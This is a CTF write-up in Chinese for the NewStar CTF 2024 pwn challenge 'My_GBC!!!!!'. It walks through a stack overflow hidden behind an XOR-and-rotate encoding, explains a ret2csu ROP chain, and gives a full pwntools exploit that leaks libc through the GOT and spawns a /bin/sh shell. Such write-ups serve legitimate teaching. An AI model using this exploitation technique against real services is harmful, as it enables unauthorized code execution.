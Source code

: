 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# My_GBC!!!!!

先将程序拖入 IDA 分析

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  initial(argc, argv, envp);
  write(1, "It's an encrypt machine.\nInput something: ", 0x2CuLL);
  len = read(0, buf, 0x500uLL);
  write(1, "Original: ", 0xBuLL);
  write(1, buf, len);
  write(1, "\n", 1uLL);
  encrypt(buf, (unsigned __int8)key, (unsigned int)len);
  write(1, "Encrypted: ", 0xCuLL);
  write(1, buf, len);
  write(1, "\n", 1uLL);
  return 0;
}
```

发现存在一个简单的栈溢出，并且输入的数据经过了某种加密处理，异或后左移

```C
__int64 __fastcall encrypt(__int64 a1, char a2, int a3)
{
  __int64 result; // rax
  unsigned int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    result = i;
    if ( (int)i >= a3 )
      break;
    *(_BYTE *)((int)i + a1) ^= a2;
    *(_BYTE *)(a1 + (int)i) = __ROL1__(*(_BYTE *)((int)i + a1), 3);
  }
  return result;
}
```

运行程序后发现，栈溢出时，`rdx` 寄存器值为 1，而程序中能利用的函数 `read` `write` 的三参都是长度，这对我们利用十分不利，因此我们选择 ret2csu

![ret2csu](/assets/images/wp/2024/week2/my-gbc_1.png)

这是 csu 的代码片段，第一段代码能将 `r12` `r13` `r14` 分别 mov 到 `rdi` `rsi` `rdx`，这样我们便能控制 `rdx`，即控制函数的三参，并且后面还有 `call [r15+rbx*8]`，能控制程序的走向；第二段代码则是一长串的 `pop`，配合上述代码，即可达到 ROP，控制程序流程

需要注意的是，`call` 后面有 `add rbx, 1;` `cmp rbp, rbx;` `jnz` ...，我们需要控制 `rbx = 0` `rbp = 1`

对于加密函数，异或和左移都是可逆运算，我们只需对我们输入的内容先右移后异或 `0x5A` 即可

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
def uu64(x): return u64(x.ljust(8, b'\x00'))
def s(x): return p.send(x)
def sa(x, y): return p.sendafter(x, y)
def sl(x): return p.sendline(x)
def sla(x, y): return p.sendlineafter(x, y)
def r(x): return p.recv(x)
def ru(x): return p.recvuntil(x)


k = 1
if k:
    addr = ''
    host = addr.split(':')
    p = remote(host[0], host[1])
else:
    p = process('./My_GBC!!!!!')
elf = ELF('./My_GBC!!!!!')
libc = ELF('./libc.so.6')


def debug():
    gdb.attach(p, 'b *0x401399\nc\n')


def ror(val, n):
    return ((val >> n) | (val << (8 - n))) & 0xFF


def decrypt(data: bytes, key: int):
    decrypted_data = bytearray()
    for byte in data:
        byte = ror(byte, 3)
        byte ^= key
        decrypted_data.append(byte)
    return decrypted_data


def csu_1(arg1, arg2, arg3, func=0, rbx=0, rbp=1):
    r12 = arg1
    r13 = arg2
    r14 = arg3
    r15 = func
    payload = p64(0x4013AA)
    payload += p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    return payload


def csu_2():
    payload = p64(0x401390)
    return payload


add_rsp_8_ret = 0x401016
ret = 0x40101a
payload = b'a' * 0x18 + csu_1(1, elf.got.read, 0x100, elf.got.write) + csu_2()
payload += csu_1(0, 0x404090, 0x50, elf.got.read) + csu_2()
payload += csu_1(0, 0, 0, 0x404098) + csu_2() + p64(ret)
payload += csu_1(0x4040A0, 0, 0, 0x404090) + csu_2()
# debug()
ru(b'Input something:')
s(decrypt(payload, 90))

libc_base = uu64(ru(b'\x7f')[-6:]) - libc.sym.read
success(f"libc_base --> 0x{libc_base:x}")

payload = p64(libc_base + libc.sym.system + 0x0) + p64(add_rsp_8_ret) + b'/bin/sh\x00'
s(payload)

p.interactive()
```

